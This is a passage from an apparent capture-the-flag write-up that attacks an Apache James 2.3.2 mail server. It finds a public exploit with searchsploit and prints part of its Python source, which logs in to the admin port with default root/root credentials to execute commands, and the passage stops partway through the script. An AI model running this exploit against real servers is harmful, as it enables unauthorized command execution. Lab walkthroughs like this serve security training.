 Nothing useful, so let’s move on to enumerating port 4555.

**Port 4555**

Run searchsploit on the software name and version.

```
searchsploit Apache James Server 2.3.2
```

We get back the following result.

![](../img/Solidstate Writeup wo Metasploit/1_x4f2NY7NAqbl--nPVfjvcA.png)

Jackpot! Transfer the exploit to our current directory.

```
searchsploit -m 35513
```

You should never run scripts that you haven’t reviewed first, so let’s view the content of this exploit.

```
`#!/usr/bin/python
#
# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
# Date: 16\10\2014
# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
# Vendor Homepage: http://james.apache.org/server/
# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
# Version: Apache James Server 2.3.2
# Tested on: Ubuntu, Debian
# Info: This exploit works on default installation of Apache James Server 2.3.2
# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

import socket
import sys
import time

# specify payload
#payload = 'touch /tmp/proof.txt' # to exploit on any user
payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # to exploit only on root
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'

if len(sys.argv) != 2:
    sys.stderr.write("[-]Usage: python %s <ip>\n" % sys.argv[0])
    sys.stderr.write("[-]Exemple: python %s 127.0.0.1\n" % sys.argv[0])
    sys.exit(1)

ip = sys.argv[1]

def recv(s):
        s.recv(1024)
        time.sleep(0.2)

try:
    print "[+]Connecting to James Remote Administration Tool..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,4555))
    s.recv(1024)
    s.send(user + "\n")
    s.recv(1024)
    s.send(pwd + "\n")
    s.recv(1024)
```